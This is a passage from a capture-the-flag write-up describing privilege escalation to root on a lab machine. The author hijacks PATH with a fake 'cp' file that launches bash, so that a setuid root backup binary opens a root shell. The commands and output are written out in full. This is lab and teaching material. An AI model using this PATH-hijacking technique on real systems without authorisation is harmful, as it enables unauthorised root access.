 ## Privilege Escalation to root


Under the secrets folder, I find a file named backup. Looking into this file, I find it is an ELF executable owned by root but can be executed by anyone


`archangel@ubuntu:~/secret$ file backup 
backup: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9093af828f30f957efce9020adc16dc214371d45, for GNU/Linux 3.2.0, not stripped

archangel@ubuntu:~/secret$ ls -la backup 
-rwsr-xr-x 1 root root 16904 Nov 18 16:40 backup`


I would like to know what this executable does, so I run strings against it. Here I find that it copies all files in the myfiles folder using cp.


`archangel@ubuntu:~/secret$ strings backup 
/lib64/ld-linux-x86-64.so.2
setuid        
system      
__cxa_finalize                           
setgid                                                                                        
__libc_start_main          
libc.so.6
GLIBC_2.2.5        
_ITM_deregisterTMCloneTable
__gmon_start__           
_ITM_registerTMCloneTable
u+UH                       
[]A\A]A^A_
cp /home/user/archangel/myfiles/* /opt/backupfiles`



This does not use the full path for cp, which means it is vulnerable to a [Path Variable Privilege Escaltion](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/). By default on linux, most variables are under sbin or bin. However we can create our own path and variable for cp so when we execute this file, it will execute the CP located in our path.

To start, we must craft a file named cp. I did this under the `/tmp` directory

`archangel@ubuntu:/tmp$ echo "/bin/bash" > cp
archangel@ubuntu:/tmp$ chmod 777 cp`


Now, I need to change my PATH variable to /tmp


`archangel@ubuntu:/tmp$ export PATH=/tmp:$PATH`


With my path changed, when I execute backup, it will look for the cp file under the tmp directory and execute it. Since root owns the file, root will excute it

`archangel@ubuntu:/tmp$ ~/secret/backup 
root@ubuntu:/tmp#`

As root, I can now read the final flag

![root](https://spy0x7.cf/assets/archangel/root.png)


Exit.py
